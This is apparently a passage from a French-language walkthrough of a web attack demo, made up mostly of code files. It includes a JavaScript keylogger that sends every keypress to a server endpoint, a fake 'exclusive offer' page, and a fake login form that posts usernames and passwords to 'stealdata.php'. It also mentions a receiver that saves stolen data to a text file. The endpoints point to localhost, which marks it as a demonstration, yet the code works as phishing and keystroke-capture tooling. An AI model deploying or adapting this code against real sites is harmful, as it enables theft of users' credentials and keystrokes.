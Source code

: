 **Explication :** Ce fichier reçoit des données volées et les enregistre dans `stolen_data.txt`.

#### `malicious.js`

```javascript
document.onkeypress = function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://localhost/demo2/keystroke?key=' + e.key, true);
    xhr.send();
};
```

**Explication :** Ce fichier enregistre les frappes de clavier et les envoie à une URL spécifiée.

#### `offer.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Exclusive Offer</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
</head>
<body>
    <div class="container text-center mt-5">
        <h1>Congratulations!</h1>
        <p>You have won an exclusive offer! Click <a href="http://localhost/demo2">here</a> to go back.</p>
    </div>
</body>
</html>
```

**Explication :** Ce fichier crée une page web avec une fausse offre exclusive.

#### `fake.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Fake Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
</head>
<body>
    <div class="container mt-5">
        <h1>Login</h1>
        <form action="stealdata.php" method="post">
            <div class="form-group">
                <input type="text" name="username" class="form-control" placeholder="Username">
            </div>
            <div class="form-group">
                <input type="password" name="password" class="form-control" placeholder="Password">
            </div>
            <button type="submit" class="btn btn-primary">Login</button>
        </form>
    </div>
</body>
</html>
```
